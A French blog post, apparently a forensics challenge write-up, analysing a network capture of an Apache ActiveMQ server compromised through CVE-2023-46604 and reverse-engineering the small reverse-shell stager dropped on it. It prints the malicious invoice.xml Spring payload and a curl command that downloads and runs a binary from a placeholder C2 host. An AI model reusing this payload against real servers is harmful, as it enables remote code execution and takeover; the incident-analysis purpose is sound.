 ```yaml
---
title: "Apache ActiveMQ sous la Loupe : analyse d'une CVE"
date: 2024-01-22T22:08:20+02:00
draft: false
---
```


## En résumé

Le challenge consiste à enquêter sur un serveur public signalé par un analyste SOC de niveau 1. Ce serveur émet des connexions sortantes vers plusieurs adresses IP suspectes. L'objectif est d'analyser le dump réseau afin de comprendre ce qu'il s'est passé et la façon dont l'attaquant s'est introduit sur le serveur.

L'attaquant a exploité la [CVE-2023-46604](https://nvd.nist.gov/vuln/detail/CVE-2023-46604) notée 9.8 et publiée fin novembre 2023. Cette faille permet de manipuler la sérialisation des classes Java utilisées dans le protocole de communication [OpenWire](https://en.wikipedia.org/wiki/OpenWire_(binary_protocol)). Cela permet à l'attaquant d'instancier n'importe quelle classe pour exécuter du code distant. Le pirate utilise cette faille pour instancier une class [`ProcessBuilder`](https://docs.oracle.com/javase/8/docs/api/java/lang/ProcessBuilder.html) qui permet de lancer des processus sur le système d'exploitation de la machine. Grâce à cela, l'attaquant contacte son C2, télécharge un reverse shell, lui donne les droits d'exécution et l'exécute :

```bash
curl -s -o /tmp/docker http://<ip C2>/docker; chmod +x /tmp/docker; ./tmp/docker
```

L'attaquant dispose d'un exécutable sur le serveur web qui établi une connection avec lui. Cette vulnérabilité a été utilisée, notamment, pour déployer des cryptominers ou des rootkits. Les impacts sont variés mais dans le cadre d'un cryptominer les performances du système sont impactées, de même que la qualité de service ainsi qu'une usure du matériel prématurée. **Des patchs ont été déployés et les utilisateurs sont invités à mettre à jour leurs systèmes vers les versions 5.15.16, 5.16.7, 5.17.6 ou 5.18.3.** Plus d'information ici : [CVE-2023-46604 (Apache ActiveMQ) Exploited to Infect Systems With Cryptominers and Rootkits](https://www.trendmicro.com/en_us/research/23/k/cve-2023-46604-exploited-by-kinsing.html#:~:text=CVE%2D2023%2D46604%20\(Apache,Systems%20With%20Cryptominers%20and%20Rootkits).

Les investigations nous font remonter jusqu'au programme, que je tente de reverse. Les indices trouvés appuient l'hypothèse d'un reverse shell. On peut résumer les différentes étapes de l'attaque comme suit :

![L'attaquant envoie invoice.xml qui va exploiter la vulnérabilité de OpenWire. L'exploit télécharge le binaire docker qui permet à l'attaquant de prendre le contrôle de la machine.](/img/blog/activemq-cve/infection.png)

<figcaption>L'attaquant envoie `invoice.xml` qui va exploiter la vulnérabilité de OpenWire. L'exploit télécharge le binaire `docker` qui permet à l'attaquant de prendre le contrôle de la machine.</figcaption>

## Investigation

Ma méthode, lorsqu'il s'agit de dump réseau, est de commencer par une vue globale. Pour cela, j'utilise Network Miner : 

![Une vue d'ensemble des appareils présents sur le réseau.](img/blog/activemq-cve/networkminer.png)

<figcaption>Une vue d'ensemble des appareils présents sur le réseau.</figcaption>

A première vue, rien ne semble particulièrement louche. Dans l'onglet `Files`, on observe deux fichiers `invoice.xml` : 

```xml
<?xml version="1.0" encoding="UTF-8" ?>
    <beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
        <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
            <constructor-arg >
            <list>
                <!--value>open</value>
                <value>-a</value>
                <value>calculator</value -->
                <value>bash</value>
                <value>-c</value>
                <value>curl -s -o /tmp/docker http://<ip C2>/docker; chmod +x /tmp/docker; ./tmp/docker</value>
            </list>
            </constructor-arg>
        </bean>
    </beans>
```

La commande `curl` est manifestement malveillante : elle télécharge un exécutable `docker` depuis un serveur C2, le rend exécutable et l'exécute.

On trouve les traces de ces actions sur Wireshark. Dans ce cas, il n'y a pas beaucoup de traffic et peu d'IPs, cela nous facilite la tâche. On identifie l'adresse IP malveillante. Nous avons donc 2 IPs : 
- celle utilisée par l'attaquant pour envoyer l'exploit
- celle que l'exploit contacte (C2) pour télécharger le reverse shell

![Liste des paquets HTML échangés.](img/blog/activemq-cve/wireshark.png)

<figcaption>Liste des paquets HTML échangés.</figcaption>

On voit bien ici le trafic réseau de l'attaquant qui envoie la vulnérabilité, cette dernière contacte le C2 et télécharge la charge finale.

## Quels sont les capacités de docker ?

On parle bien entendu du binaire Linux récupéré et non de l'outil de conteneurisation. Puisque ce fichier a été échangé via le réseau, on est en capacité de le récupérer.

Mes compétences en reverse sont limités. Cependant, le fichier étant très petit (250 octets), j'ai décidé de tenter le coup. On observe plusieurs `syscall` Linux : 

- `sys_mmap`
Il sert à créer un mappage entre une région de mémoire virtuelle d'un processus et une ressource physique ou un fichier. Utile pour mapper un fichier en mémoire, allouer de la mémoire ou créer une zone de mémoire partagée.

- `sys_socket`
Il permet de créer un point de communication, ou socket, pour communiquer avec un autre processus sur une machine distante.

- `sys_connect`
Utilisé avec le précédent, il permet d'établir une connection réseau.

- `sys_nanosleep`
Suspend l'exécution du programme.

- `sys_exit`
Termine l'exécution du programme.

La combinaison du syscall de création de socket et de connexion semble bien indiquer un reverse shell. De toute façon, avec 250 octets, le programme ne peut pas avoir de fonctionnalité très avancée. Cependant, il est curieux de constater qu'il n'y a pas d'appel système pour **recevoir** (recv) et exécuter la commande reçue.

Il y a également la présence d'une valeur codée en dur : `5C15BE92BB010002`.

- Hypothèse 1 : cette valeur est une clef de chiffrement/déchiffrement pour obfusquer des paramètres du programmes et chiffrer les communications avec le C2.

On peut écarter cette hypothèse car il n'y a pas d'autres chaînes de caractères et il ne semble pas y avoir de fonction de déchiffrement/décodage dans le programme.

- Hypothèse 2 : cette valeur contient les informations de connexions avec le C2 (IP + port + autre chose ?).

Cet "autre chose" pourrait être un identifiant de compromission. Utilisé parfois par les attaquants, un identifiant sert à identifier la victime afin de mieux les monitorer : gardons à l'esprit la volonté d'industrialisation dans ce type d'attaque. Cette hypothèse est plus plausible car ce paramètre est proche de l'appel à `sys_connect`.

![La mystérieuse chaîne de caractère ainsi que l'appel à `sys_connect`.<](img/blog/activemq-cve/reverse.png)

<figcaption>La mystérieuse chaîne de caractère ainsi que l'appel à `sys_connect`.</figcaption>